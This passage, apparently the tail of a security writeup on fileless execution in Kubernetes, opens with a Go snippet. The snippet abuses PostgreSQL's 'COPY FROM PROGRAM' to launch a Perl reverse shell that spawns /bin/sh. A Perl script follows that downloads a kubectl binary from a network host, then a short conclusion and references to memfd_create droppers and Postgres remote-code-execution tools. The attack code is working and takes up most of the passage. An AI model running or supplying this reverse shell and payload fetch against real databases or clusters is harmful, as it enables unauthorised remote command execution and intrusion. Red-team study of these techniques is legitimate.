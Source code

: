 ```go
    _, err = db.Exec(`COPY cmd_exec FROM PROGRAM 'perl -e "use Socket;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in(1337,inet_aton(\"127.0.0.1\")))){open(STDIN,\">&S\");open(STDOUT,\">&S\");open(STDERR,\">&S\");exec(\"/bin/sh -i\");};"'`)
    if err != nil {
        log.Fatal(err)
    }

    log.Println("Commands executed successfully")
}
```

## Perl Curl
```sh
#!/usr/bin/perl use strict;

use warnings;
use HTTP::Tiny;

my $url = 'http://192.168.178.67/kubectl';
my $file = 'kubectl';
my $response = HTTP::Tiny->new->get($url);

if ($response->{success}) {
    open my $fh, '>', $file or die "Cannot open $file: $!";
    print $fh $response->{content}; close $fh;
 } else {
    die "Failed to get $url\n";
}
```
## Conclusion

We've demonstrated fileless execution within a Kubernetes environment, highlighting techniques to navigate around read-only file systems and interact with network services.


## References 

| Tech | Link |
| ------ | ------ |
| Glibc | [https://trofi.github.io/posts/239-hacking-on-glibc.html] |
| fee | [https://pypi.org/project/fee/] |
| memfd_create | [https://0x00sec.org/t/super-stealthy-droppers/3715] |
| memfd_create | [https://x-c3ll.github.io/posts/fileless-memfd_create/] |
| Postgres RCE | [https://github.com/squid22/PostgreSQL_RCE/blob/main/postgresql_rce.py] |
| BadPods | [https://bishopfox.com/blog/kubernetes-pod-privilege-escalation] |
